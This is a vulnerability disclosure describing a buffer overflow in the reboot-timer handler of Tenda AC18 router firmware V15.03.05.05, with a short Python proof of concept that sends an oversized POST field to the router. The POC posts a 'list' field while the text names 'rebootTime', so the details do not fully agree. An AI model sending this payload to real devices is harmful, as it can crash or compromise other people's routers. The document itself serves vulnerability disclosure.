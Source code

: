 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a buffer overflow vulnerability in the `formsetreboottimer ` function. The `s` variable receives the `rebootTime` parameter from a POST request and is later passed to the `sscanf` function. However, since the Since user can control the input of  `rebootTime`, the statemeant `sscanf(s, "%d:%d", &v7, &v6);` can cause a buffer overflow.

![image-20250603000248091](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250603000248091.png)

## POC

```python
import requests

ip = "192.168.1.1"

url = f'http://{ip}/goform/SetSysAutoRebbotCfg'
payload = b'a' * 1000
data = {
    'list':payload
}

requests.post(url, data=data)
```

![image-20250603000202009](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250603000202009.png)
